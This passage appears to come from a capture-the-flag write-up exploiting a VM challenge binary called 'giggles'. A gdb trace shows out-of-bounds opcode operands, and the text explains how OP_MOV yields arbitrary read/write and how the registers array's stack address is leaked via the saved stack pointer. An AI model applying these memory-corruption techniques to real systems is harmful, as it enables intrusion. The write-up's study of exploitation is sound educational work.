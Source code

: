    $ gdb -p 4077 ./giggles
    ...
    (gdb) set follow-fork-mode child
    (gdb) break giggles.c:121
    Breakpoint 1 at 0x7f19ed08597e: file giggles.c, line 121.
    (gdb) c
    Continuing.
    [New process 4230]
    [Switching to process 4230]

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    warning: Source file is more recent than executable.
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $1 = {opcode = 1, operand1 = 30, operand2 = 0, operand3 = 0}
    (gdb) c
    Continuing.

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $2 = {opcode = 1, operand1 = 785, operand2 = 280267669825,
    operand3 = 0}
    (gdb) c
    Continuing.

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $3 = {opcode = 5, operand1 = 1338, operand2 = 0, operand3 = 0}
    (gdb) c
    Continuing.

    Breakpoint 1, executeFunction (f=0x7f19ed287180 <funcs>, ...
    121	        switch (curr_op->opcode)
    (gdb) p *curr_op
    $4 = {opcode = 5, operand1 = 1337, operand2 = 0, operand3 = 0}
    (gdb)

Clearly the operands are out of bounds. At this point we have an arbitrary read
and write (via `OP_MOV`) relative to the `registers` array. Turning this into
an absolute read/write is easy too, if we can leak the address of the `registers`
array. Conveniently, it is located on the stack and we can determine its exact
location from the value of the saved stacked pointer:

    (gdb) x/20gx registers
    0x7fff59040d90:	0x0000000000000000	0x0000000000000000
    0x7fff59040da0:	0x0000000000000000	0x0000000000000000
    0x7fff59040db0:	0x0000000000000000	0x00007f19ed0855d8
    0x7fff59040dc0:	0x00007fff59002030	0x0000000000000004
    0x7fff59040dd0:	0x00007f19ee744574	0x65b948277f4f3b00
    0x7fff59040de0:	0x0000000000000000	0x0000000000000000
    0x7fff59040df0:	0x00007fff59040e50 <--  0x00007f19ed085efd
    0x7fff59040e00:	0x00007f19ed08611c	0x0000000400000000
    0x7fff59040e10:	0x00000000000402ed	0x00007f19ee744570
    0x7fff59040e20:	0x00007f19ee7445c0	0x00007f19ee744570
    (gdb) p 0x00007fff59040e50 - 0x7fff59040d90
    $6 = 192
